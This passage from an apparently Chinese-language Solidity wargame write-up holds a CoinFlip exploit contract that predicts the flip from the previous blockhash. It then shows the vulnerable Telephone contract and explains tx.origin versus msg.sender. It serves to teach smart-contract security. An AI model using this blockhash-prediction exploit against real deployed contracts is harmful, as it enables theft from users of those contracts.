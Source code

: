 ```solidity
  CoinFlip expFlip;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor (address aimAddr) public {
    expFlip = CoinFlip(aimAddr);
  }

  function hack() public {
    uint256 blockValue = uint256(blockhash(block.number-1));
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool guess = coinFlip == 1 ? true : false;
    expFlip.flip(guess);
  }
}
```

## telephone

### 题目

需要成为合约的owner

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### 分析

这里肯定是调用changeOwner，知识点就在于tx.origin和msg.sender之间的区别。

- tx.origin (address):交易发送方(完整的调用链)
- msg.sender (address):消息的发送方(当前调用)

可以认为，origin为源ip地址，sender为上一跳地址。
